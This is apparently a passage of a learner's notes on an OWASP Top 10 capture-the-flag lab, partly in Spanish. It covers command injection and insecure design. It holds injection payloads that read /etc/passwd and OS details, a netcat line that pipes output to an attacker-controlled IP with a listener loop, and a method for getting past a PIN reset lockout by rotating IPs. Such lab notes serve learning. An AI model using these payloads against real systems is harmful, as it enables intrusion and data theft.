 ```
;grep -v "nologin" /etc/passwd

```

#### What user is this app running as?
	apache

```
$(whoami)
apache
```

#### What is the user's shell set as?

	/sbin/nologin

```
; grep 'apache' /etc/passwd
apache:x:100:101:apache:/var/www:/sbin/nologin
```

#### What version of Alpine Linux is running?
	3.16.0

```
; cat /etc/os-release
NAME="Alpine Linux"
ID=alpine
VERSION_ID=3.16.0
PRETTY_NAME="Alpine Linux v3.16"
HOME_URL="https://alpinelinux.org/"
BUG_REPORT_URL="https://gitlab.alpinelinux.org/alpine/aports/-/issues"
                    
```

#### EXTRA

```
;ls | nc 10.6.13.236 1433


> kali
while true ; do nc -lnvp 1433 ; done
```
##  Task 11 4. Insecure Design


- un reseteo de login con un pin de 6 digitos
	- se bloquea a los 3 intentos desde 1 ip
	- pero si se manda de varias ips se puede bypassear

- Vamos a la pagina y probamos colores de pregunta secreta para el password de 
Navigate to [http://10.10.4.17:85](http://10.10.4.17:85)

**Security Question**
Whats your favorite colour? green
**Success:** The password for user joseph has been reset to frexdJRE3w0gmA
